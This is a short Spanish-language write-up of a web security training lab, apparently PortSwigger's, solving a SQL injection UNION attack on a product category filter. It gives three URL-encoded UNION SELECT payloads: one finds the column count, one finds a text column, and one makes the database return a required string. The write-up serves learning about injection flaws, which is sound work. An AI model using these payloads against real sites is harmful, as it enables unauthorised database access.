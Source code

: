 Este es el laboratorio:
![[Pasted image 20240507182020.png]]
Y si entramos en alguna de las categorías, vemos que posiblemente por detrás se hace una query a la base de datos:
![[Pasted image 20240507182059.png]]
Podemos añadir el siguiente payload para descubrir el número de columnas, donde podemos confirmar que hay 3:
```bash
/filter?category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+NULL,NULL,NULL--
```
![[Pasted image 20240507182208.png]]
Y ahora usamos el siguiente payload:
```bash
category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+NULL,'abcdef',NULL--
```
Y vemos que funciona:
![[Pasted image 20240507182602.png]]
Entonces ahora siguiendo las instrucciones, se nos pide que la base de datos devuelva el siguiente string:
![[Pasted image 20240507182628.png]]
Por lo que usamos el siguiente payload:
```bash
category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+NULL,'qb149R',NULL--
```
![[Pasted image 20240507182721.png]]
Y ya hemos resuelto el laboratorio:
![[Pasted image 20240507182737.png]]
